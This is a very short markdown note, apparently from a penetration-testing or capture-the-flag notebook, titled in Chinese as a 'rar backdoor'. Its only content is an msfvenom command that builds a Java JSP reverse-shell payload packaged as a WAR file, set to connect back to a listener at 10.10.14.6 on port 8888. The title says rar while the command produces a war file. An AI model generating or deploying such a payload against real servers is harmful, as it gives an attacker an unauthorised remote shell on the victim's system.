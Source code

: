# rar后门

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.6 LPORT=8888 -f war > shell.war 
```

‍
